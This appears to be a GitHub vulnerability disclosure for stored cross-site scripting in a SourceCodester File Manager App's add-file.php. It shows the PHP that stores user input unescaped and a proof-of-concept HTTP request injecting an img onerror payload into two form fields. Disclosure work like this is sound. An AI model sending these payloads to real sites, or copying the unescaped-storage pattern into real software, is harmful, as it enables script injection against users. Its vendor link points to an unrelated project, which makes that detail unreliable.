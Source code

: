 # SOURCECODESTER / File Manager App - Stored XSS add-file.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /endpoint/add-file.php

## Code
```php
        $fileTitle = $_POST["fileTitle"];
        $fileUploader = isset($_POST["fileUploader"]) ? $_POST["fileUploader"] : "";


 $sql = "INSERT INTO tbl_file (file_title, file, file_uploader, date_uploaded) VALUES (:fileTitle, :uploadedFileName, :fileUploader, :dateUploaded)";
                $stmt = $conn->prepare($sql);
                $stmt->bindParam(':fileTitle', $fileTitle);
                $stmt->bindParam(':uploadedFileName', $uploadedFileName);
                $stmt->bindParam(':fileUploader', $fileUploader);
                $stmt->bindParam(':dateUploaded', $dateUploaded);
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /endpoint/add-file.php HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuV4b4E6bYtWMxE9Q
Content-Length: 461


------WebKitFormBoundaryuV4b4E6bYtWMxE9Q
Content-Disposition: form-data; name="fileTitle"

<img src=x onerror=alert('NoChizPlz')>
------WebKitFormBoundaryuV4b4E6bYtWMxE9Q
Content-Disposition: form-data; name="file"; filename="csv.csv"
Content-Type: text/txt

NochizPlz
------WebKitFormBoundaryuV4b4E6bYtWMxE9Q
Content-Disposition: form-data; name="fileUploader"

<img src=x onerror=alert('NoChizPlz')>
------WebKitFormBoundaryuV4b4E6bYtWMxE9Q--

```

## Screenshot
![img.png](STORED%20XSS%20add-file%2Fimg.png)

